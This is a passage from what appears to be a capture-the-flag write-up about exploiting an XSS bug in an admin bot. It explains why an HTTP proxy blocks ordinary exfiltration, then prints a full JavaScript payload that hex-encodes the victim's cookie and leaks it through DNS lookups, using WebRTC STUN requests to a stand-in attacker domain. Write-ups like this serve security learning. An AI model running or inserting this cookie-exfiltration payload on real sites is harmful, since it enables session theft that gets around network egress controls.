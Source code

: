 ```Dockerfile
ENV HTTPS_PROXY="http://127.0.0.1:9999"
ENV no_proxy="127.0.0.1,localhost"

# Create entrypoint and start supervisord
COPY --chown=root entrypoint.sh /entrypoint.sh
RUN chmod +x /entrypoint.sh
ENTRYPOINT ["/entrypoint.sh"]
```

Going back to the `Dockefile` we see the env variables for HTTP proxying are set. This means that any HTTP request made by the admin bot will use `http://127.0.0.1:9999` as a proxy, but since that port has nothing running on it the request will simply fail, so it is impossible to use HTTP for exfiltration on the remote instance.

```js
function convertToHex(str) {
    var hex = "";
    for (var i = 0; i < str.length; i++) {
        hex += str.charCodeAt(i).toString(16);
    }
    return hex;
}

function leakCookieViaRTC(domain, cookie) {
    var sectionLength = Math.ceil(cookie.length / 2);
    for (var i = 0; i < 2; i++) {
        var section = cookie.slice(i * sectionLength, (i + 1) * sectionLength);
        if (section) {
            var hexSection = convertToHex(section);
            var p = new RTCPeerConnection({
                iceServers: [{
                    urls: `stun:${hexSection}.${domain}`
                }]
            });

            p.createDataChannel("d");
            p.setLocalDescription();
        }
    }
}

leakCookieViaRTC("attacker-dns.com", document.cookie);
```

This is a javascript payload we can use to encode the cookie to hex (valid DNS address characters), split it in two parts (because the session cookie encoded is too big for a domain name) and then make a DNS request that contains our cookie to an attacker defined domain. This is done using the now native javascript class `RTCPeerConnection` that is normally used for RTC communication, but it can be abused as a sidechannel to leak data via DNS.

However we need to encode this payload in order to add it to our parser XSS, normally we could convert it to base64 and then decode it with `atob` and execute it with `eval`, but the issue with this is that all of our input is converted to lowercase, so any uppercase character that is part of the encoded string would get corrupted.
